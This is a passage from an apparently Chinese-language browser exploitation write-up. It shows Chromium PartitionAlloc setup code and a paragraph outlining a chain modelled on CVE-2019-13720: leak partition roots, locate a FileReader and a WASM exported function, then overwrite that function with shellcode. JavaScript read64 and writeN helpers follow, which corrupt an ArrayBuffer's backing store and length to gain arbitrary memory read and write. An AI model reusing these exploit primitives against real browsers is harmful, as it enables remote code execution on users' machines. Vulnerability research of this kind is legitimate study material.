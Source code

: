 ```cpp
  layout_root_ = layout_allocator->root();

#if defined(PA_ALLOW_PCSCAN)
  if (base::FeatureList::IsEnabled(base::features::kPartitionAllocPCScan) ||
      base::FeatureList::IsEnabled(kPCScanBlinkPartitions)) {
    base::internal::PCScan::RegisterNonScannableRoot(array_buffer_root_);
#if !BUILDFLAG(USE_PARTITION_ALLOC_AS_MALLOC)
    base::internal::PCScan::RegisterScannableRoot(fast_malloc_root_);
#endif
    base::internal::PCScan::RegisterScannableRoot(buffer_root_);
  }
#endif  // defined(PA_ALLOW_PCSCAN)

  initialized_ = true;
  return initialized_;
}

```

有了 backing_store 的地址，就可以读到 ArrayBufferPartitionRoot 的地址，从而计算出 FastMallocPartitionRoot 的地址。之后就可以依照 CVE-2019-13720 的利用思路读取到一个 FileReader 对象的地址，又从 FileReader.onerror 事件回调读取到 WASM 导出函数的地址，利用任意内存写将 shellcode 填入 WASM 导出函数，之后调用导出函数就可以执行 shellcode 了。

```javascript
async function main() {
	...
	
			function read64(addr) {
				arrbuf_as_arr[2] = utof(BigInt(low32(addr)) << BigInt(32));
				arrbuf_as_arr[3] = utof((ftou(arrbuf_as_arr[3]) &
								   BigInt(0xFFFFFFFF00000000)) + BigInt(high32(addr)));
				return new BigInt64Array(arrbuf)[0];
			}
			
			function writeN(addr, src) {
				// modify backing_store
				arrbuf_as_arr[2] = utof(BigInt(low32(addr)) << BigInt(32));
				arrbuf_as_arr[3] = utof(
							(ftou(arrbuf_as_arr[3]) & BigInt(0xFFFFFFFF00000000)) +
							BigInt(high32(addr)));
					// modify len
				arrbuf_as_arr[0] =
					  utof(ftou(arrbuf_as_arr[0]) + (BigInt(src.length) << BigInt(32)));
				
				let dst = new Uint8Array(arrbuf);
				for (let i = 0; i < src.length; ++i) {
					dst[i] = src[i]
				}
			}
			
			await exploit(read64, writeN, backing_store);
		} catch (e) {
			alert(`${e.lineNumber}:${e.message}`);
		}
	} catch (e) {
	}
}
```
